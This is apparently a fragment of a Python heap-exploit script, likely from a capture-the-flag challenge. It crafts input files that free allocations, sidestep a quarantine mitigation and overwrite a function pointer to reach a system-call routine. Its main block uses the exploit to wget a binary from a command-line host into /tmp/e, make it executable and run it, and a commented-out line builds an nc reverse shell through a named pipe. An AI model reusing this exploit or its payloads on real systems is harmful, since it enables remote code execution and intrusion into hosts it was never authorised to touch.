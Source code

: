 ```python
        content += "\x16\x00"
        content += "\x41" * 20 + "\x00"
        content += "\x42" * 4 + "\x00"
        content += "\n"

    # Status
    # Bucket 1: Fully allocated
    # Bucket 2: Fully allocated (current)

    # Free two allocations from bucket 1
    # Since bucket 2 is current and the traversing doesn't involve the 
    # quarantine mitigation, we can bypass it

    # DELETE (Free)
    content += "\x12"
    content += objs[0]
    content += "\n"

    # DELETE (Free)
    content += "\x12"
    content += objs[1]
    content += "\n"

    # ID & price
    fake_obj = "AA;$({});#".format(cmd)
    #fake_obj += "\x41" * 0x2c
    fake_obj += "\x41" * ( 0x30 - len(fake_obj) )
    # CMD_DROP function pointer
    # @execute_system
    fake_obj += "\x70" + "\x00"

    # Create => alloc bucket1->freelist[1]
    content += "\x10"
    content += "\x37\x13"  # sh
    content += "\x16\x00"
    # Name: system payload
    # content += ";mknod /tmp/mypipe p ; /bin/bash 0< /tmp/mypipe | nc 127.0.0.1 4445 1> /tmp/mypipe\x00"
    content += "BB\x00"
    # Description: alloc on bucket1->freelist[0] (| obj[0])
    content += fake_obj
    content += "\n"

    # DROP => Trigger arbitrary function call
    content += "\x14"
    content += "\x41\x41"
    content += "\n"

    with open(filename, "w") as f:
        f.write(content)
    print_stderr("[+] {} generated".format(filename))

if __name__ == "__main__":
    exploit("wget http://{}:8000/e -O /tmp/e".format(sys.argv[1]), "input_file_1")
    exploit("chmod +x /tmp/e", "input_file_2")
    exploit("/tmp/e", "input_file_3")
```
